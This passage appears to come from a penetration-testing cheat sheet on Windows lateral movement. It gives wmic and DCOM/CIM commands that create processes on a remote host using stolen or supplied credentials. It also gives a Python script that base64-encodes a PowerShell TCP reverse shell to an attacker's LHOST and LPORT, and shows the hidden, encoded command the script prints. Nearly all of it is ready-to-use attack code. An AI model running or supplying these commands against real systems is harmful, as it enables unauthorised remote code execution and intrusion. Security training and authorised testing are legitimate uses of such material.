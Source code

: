 ```cmd
C:\> wmic /node:<RHOST> /user:<USERNAME> /password:<PASSWORD> process call create "cmd"
```

##### Store Credentials

```cmd
PS C:\> $username = '<USERNAME>';
PS C:\> $password = '<PASSWORD>';
PS C:\> $secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
PS C:\> $credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
```

##### Instanciate Distributed Component Object MOdel (DCOM)

```cmd
PS C:\> $options = New-CimSessionOption -Protocol DCOM
PS C:\> $session = New-Cimsession -ComputerName <RHOST> -Credential $credential -SessionOption $Options 
PS C:\> $command = 'cmd';
```

##### Execution

```cmd
PS C:\> Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
```

##### Creating Payload

###### revshell_encoder.py

```python
import sys
import base64

payload = '$client = New-Object System.Net.Sockets.TCPClient("<LHOST>",<LPORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

print(cmd)
```

###### Encode Payload

```console
$ python3 encode.py
```

```console
powershell -nop -w hidden -e JAB<--- SNIP --->CkA
```
